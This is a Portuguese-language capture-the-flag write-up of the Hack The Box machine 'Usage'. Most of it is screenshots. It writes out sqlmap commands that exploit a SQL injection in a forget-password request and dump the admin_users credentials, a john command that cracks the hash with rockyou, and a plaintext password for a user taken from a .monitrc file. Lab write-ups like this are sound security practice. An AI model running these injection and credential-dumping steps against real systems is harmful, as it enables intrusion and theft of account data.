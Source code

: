 Enumeração de serviços:
![[Write-up/Hack The Box/Usage/img/Pasted image 20240414155428.png]]

Identificação do subdomínio admin
![[Write-up/Hack The Box/Usage/img/Pasted image 20240414155910.png]]

Cadastro do usuário:
![[Write-up/Hack The Box/Usage/img/Pasted image 20240414162721.png]]

Login com usuário criado:
![[Write-up/Hack The Box/Usage/img/Pasted image 20240414162753.png]]

Login realizado com sucesso:
![[Write-up/Hack The Box/Usage/img/Pasted image 20240414162813.png]]

Teste de SQL Injection com sqlmap:
```bash
sqlmap -r forget-password.req -p email --batch --technique="UB" --risk=3 --level=5
```
![[Write-up/Hack The Box/Usage/img/Pasted image 20240415102931.png]]

Buscando informações dos bancos de dados:
```bash
sqlmap -r forget-password.req -p email --batch --dbs
```
![[Write-up/Hack The Box/Usage/img/Pasted image 20240415103423.png]]

Buscando informações das tabelas do banco de dados usage_blog:
```bash
sqlmap -r forget-password.req -p email --batch -D usage_blog --tables
```
![[Write-up/Hack The Box/Usage/img/Pasted image 20240415112641.png]]

Buscando nomes das colunas na tabela admin_users do banco usage_blog:
```bash
sqlmap -r forget-password.req -p email --batch -D usage_blog -T admin_users --columns
```
![[Write-up/Hack The Box/Usage/img/Pasted image 20240415113510.png]]

Recuperando os valores das colunas username e password da tabela admin_users:
```bash
sqlmap -r forget-password.req -p email --batch -D usage_blog -T admin_users -C username,password --dump
```
![[Write-up/Hack The Box/Usage/img/Pasted image 20240415113949.png]]

Quebra da senha:
```bash
john admin-hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Write-up/Hack The Box/Usage/img/Pasted image 20240415114148.png]]
Login no painel administrativo:
![[Write-up/Hack The Box/Usage/img/Pasted image 20240415120823.png]]

Dashboard administrativo:
![[Write-up/Hack The Box/Usage/img/Pasted image 20240415120851.png]]

![[Write-up/Hack The Box/Usage/img/Pasted image 20240415133447.png]]

![[Write-up/Hack The Box/Usage/img/Pasted image 20240415132153.png]]

![[Write-up/Hack The Box/Usage/img/Pasted image 20240415133532.png]]

![[Write-up/Hack The Box/Usage/img/Pasted image 20240415133617.png]]

![[Write-up/Hack The Box/Usage/img/Pasted image 20240415133650.png]]

![[Write-up/Hack The Box/Usage/img/Pasted image 20240415133734.png]]

![[Write-up/Hack The Box/Usage/img/Pasted image 20240415133856.png]]

Senha do usuário xander no arquivo /home/dash/.monitrc
`3nc0d3d_pa$$w0rd`
